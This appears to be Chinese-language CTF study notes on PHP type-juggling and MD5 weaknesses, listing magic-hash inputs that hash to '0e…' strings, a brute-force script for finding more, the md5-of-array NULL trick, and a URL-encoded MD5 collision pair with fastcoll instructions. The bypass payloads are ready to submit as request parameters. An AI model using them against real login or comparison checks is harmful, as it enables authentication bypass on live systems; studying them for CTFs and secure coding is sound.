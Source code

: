 # 数字与字符串之间的比较

```php
var_dump( 0 == "a" );
var_dump( "0" == "a" );
```

第一个返回的是 true ，第二个返回的是 false
因为php把字母开头的转化为整型时，转化为0， 前面数字后面字母的话就只取到第一个字母出现的位置之前（如intval(‘123abd45gf’)结果为123）

# MD5函数漏洞

```php
$_GET['name'] != $_GET['password']
MD5($_GET['name']) == MD5($_GET['password'])
```

要求满足上述条件则
那么要求name和password数值不同但是MD5相同，在这里可以利用绕过。
PHP在处理哈希字符串时，它把每一个以“0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以“0E”开头的，那么PHP将会认为他们相同，都是0。

纯数字类：
```
240610708 0e462097431906509019562988736854
314282422 0e990995504821699494520356953734
571579406 0e972379832854295224118025748221
903251147 0e174510503823932942361353209384
1110242161 0e435874558488625891324861198103
1320830526 0e912095958985483346995414060832
1586264293 0e622743671155995737639662718498
2302756269 0e250566888497473798724426794462
2427435592 0e067696952328669732475498472343
2653531602 0e877487522341544758028810610885
3293867441 0e471001201303602543921144570260
3295421201 0e703870333002232681239618856220
3465814713 0e258631645650999664521705537122
3524854780 0e507419062489887827087815735195
3908336290 0e807624498959190415881248245271
4011627063 0e485805687034439905938362701775
4775635065 0e998212089946640967599450361168
4790555361 0e643442214660994430134492464512
5432453531 0e512318699085881630861890526097
5579679820 0e877622011730221803461740184915
5585393579 0e664357355382305805992765337023
6376552501 0e165886706997482187870215578015
7124129977 0e500007361044747804682122060876
7197546197 0e915188576072469101457315675502
7656486157 0e451569119711843337267091732412
```

大写字母类

```
QLTHNDT 0e405967825401955372549139051580
QNKCDZO 0e830400451993494058024219903391
EEIZDOI 0e782601363539291779881938479162
TUFEPMC 0e839407194569345277863905212547
UTIPEZQ 0e382098788231234954670291303879
UYXFLOI 0e552539585246568817348686838809
IHKFRNS 0e256160682445802696926137988570
PJNPDWY 0e291529052894702774557631701704
ABJIHVY 0e755264355178451322893275696586
DQWRASX 0e742373665639232907775599582643
DYAXWCA 0e424759758842488633464374063001
GEGHBXL 0e248776895502908863709684713578
GGHMVOE 0e362766013028313274586933780773
GZECLQZ 0e537612333747236407713628225676
NWWKITQ 0e763082070976038347657360817689
NOOPCJF 0e818888003657176127862245791911
MAUXXQC 0e478478466848439040434801845361
MMHUWUV 0e701732711630150438129209816536
```

或者直接py脚本生成

```python
# -*- coding: utf8 -*-
import hashlib
 
payload = "QWERTYUIOPASDFGHJKLZXCVBNM"
#payload = "qwertyuiopasdfghjklzxcvbnm"
#payload = "0123456789"
 
 
def calcMd5(s):
	MD5 = hashlib.md5(s).hexdigest()
	if MD5[0:2] == "0e" and MD5[2:32].isdigit():
		print s,MD5
 
def getStr(payload,s,slen):
	if len(s) == slen:
		#Custom string
		calcMd5(s)
		return s	
	for j in xrange(len(payload)):
		sl= s+payload[j]
		getStr(payload,sl,slen)
 
if __name__ == '__main__':
	getStr(payload,'',7)
  ```
  
  sha1加密后以0E开头
  
  ```
sha1('aaroZmOk')
sha1('aaK1STfY')
sha1('aaO8zKZF')
sha1('aa3OFF9m')
```

**GET传入a=QNKCDZO&b=240610708就能绕过了**

# php特性

```php
if($_POST['param1']!==$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!");
    }
```

PHP中md5的函数特性

```
md5([1,2,3]) == md5([4,5,6]) == NULL
```

[1] !== [2] && md5([1]) === md5([2])

**所以GET传入a[]=1&b[]=2就能够绕过了。**

# MD5碰撞

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!);
}
```

要求构造param1和param2不同，但是MD5相同，也就是说要求传入两个MD5相同的不同字符串。

```

Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

```

因为md5算法是一种摘要算法，也就是说它会把输入的数据压缩，那么就有可能存在两个不同的字符串经过md5加密后，会有两个MD5值相同。
这里用到了一个工具fastcoll_v1.0.0.5
先创建1.txt 和 2.txt
然后用fastcoll_v1.0.0.5 -i 1.txt 2.txt -o 3.txt 4.txt这条命令就可产生两个md5值相同的文件了。
上传用url编码。也就将文件以二进制的方式读入，然后编码成url编码。

生成工具：https://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip

源码：https://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5-1_source.zip

注意一点，post时一定要urlencode！！！

